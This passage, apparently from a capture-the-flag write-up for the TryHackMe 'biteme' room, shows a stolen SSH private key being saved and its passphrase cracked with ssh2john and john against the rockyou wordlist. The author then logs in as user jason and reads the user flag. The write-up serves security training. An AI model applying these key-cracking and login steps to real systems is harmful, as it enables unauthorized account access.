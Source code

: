 **Copy and paste it to your attacker machine, and mark it as read/write by root (or your current user):**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/biteme]
└─# nano jason_id_rsa              
                                                                                                                         
┌──(root🌸siunam)-[~/ctf/thm/ctf/biteme]
└─# chmod 600 jason_id_rsa
```

**We can now SSH into jason!**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/biteme]
└─# ssh -i jason_id_rsa jason@$RHOSTS
[...]
Enter passphrase for key 'jason_id_rsa': 
jason@10.10.136.9's password:
```

Ahh... It needs a passphrase.

**We can crack it via `ssh2john` and `john`!**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/biteme]
└─# ssh2john jason_id_rsa > jason_id_rsa.hash

┌──(root🌸siunam)-[~/ctf/thm/ctf/biteme]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt jason_id_rsa.hash
[...]
{Redacted}         (jason_id_rsa)
```

**Found it! Now let's `ssh` into jason with the private key!**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/biteme]
└─# ssh -i jason_id_rsa jason@$RHOSTS        
Enter passphrase for key 'jason_id_rsa': 
Last login: Fri Mar  4 18:22:12 2022 from 10.0.2.2
jason@biteme:~$ whoami;hostname;id;ip a
jason
biteme
uid=1000(jason) gid=1000(jason) groups=1000(jason),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev)
[...]
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:62:cd:c5:ec:75 brd ff:ff:ff:ff:ff:ff
    inet 10.10.136.9/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 2709sec preferred_lft 2709sec
    inet6 fe80::62:cdff:fec5:ec75/64 scope link 
       valid_lft forever preferred_lft forever
```

We're `jason`!

**user.txt:**
```
jason@biteme:~$ cat /home/jason/user.txt 
THM{Redacted}
```
